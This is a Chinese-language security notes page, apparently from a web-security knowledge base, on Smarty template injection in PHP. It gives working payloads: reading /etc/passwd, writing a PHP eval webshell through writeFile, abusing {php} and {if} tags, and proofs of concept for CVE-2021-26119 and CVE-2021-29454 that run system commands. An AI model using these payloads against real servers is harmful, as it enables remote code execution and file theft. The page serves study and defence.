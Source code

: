 ```yaml
---
tags:
    - PHP
    - Web Sec
comments: true
---
```

# Smarty 模板注入

[Smarty](https://github.com/smarty-php/smarty){target="_blank"}是最流行的PHP模板语言之一，为不受信任的模板执行提供了安全模式。这会强制执行在 php 安全函数白名单中的函数，因此我们在模板中无法直接调用 php 中直接执行命令的函数(相当于存在了一个disable_function)

## 攻击方式
通过self获取到smarty内置变量后，`{$smarty}` 可以访问到一些内置函数，如 `{$smarty.version}` 可以获取当前 smarty 版本号。通过这个变量，我们可以获取到一些内置函数，如 `{$smarty.now}` 可以获取当前时间戳，`{$smarty.const.PHP_VERSION}` 可以获取 php 版本号。

### getStreamVariable()

getStreamVariable() 这个方法可以获取传入变量的流，通过这个方法我们可以获取到文件内容，如 `{self::getStreamVariable("file:///etc/passwd")}` 

!!! Failure 
    Smarty 3.1.30 已经将 getStreamVariable 静态方法删除

### writeFile()

```php
<?php
public function writeFile($_filepath, $_contents, Smarty $smarty)
//我们可以发现第三个参数$smarty其实就是一个smarty模板类型，要求是拒绝非Smarty类型的输入，这就意味着我们需要获取对Smarty对象的引用
//在smarty中有 self::clearConfig()：
public function clearConfig($varname = null)
{
    return Smarty_Internal_Extension_Config::clearConfig($this, $varname);
}
?>
```

构造payload写webshell：

```php
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php eval($_GET['cmd']); ?>",self::clearConfig())}
```

### 标签

1. `{php} {/php}` 中间的内容会被当做php代码执行
2. `{literal}` 可以让一个模板区域的字符原样输出。 这经常用于保护页面上的Javascript或css样式表，可以实现xss或php5代码执行
3. `{if}{/if}` if语句内可以执行php代码，如 `{if phpinfo()}{/if}`


## 漏洞复现
### CVE-2021-26120
[Todo](/todo)

### CVE-2021-26119
**漏洞原因**：可以通过 {$smarty.template_object} 访问到 smarty 对象<br/>
**修复版本**：3.1.39<br/>
**PoC**: ```string:{$smarty.template_object->smarty->_getSmartyObj()->display('string:{system(whoami)}')}```

### CVE-2021-29454

**漏洞原因**：`libs/plugins/function.math.php` 中的 `smarty_function_math` 执行了 eval()，而 eval() 的数据可以通过 8 进制数字绕过正则表达式

**修复版本**：3.1.42 和 4.0.2 

**PoC**: ```eval:{math equation='("\163\171\163\164\145\155")("\167\150\157\141\155\151")'}```


## 参考资料
[Smarty 最新 SSTI 总结](https://xz.aliyun.com/t/11108)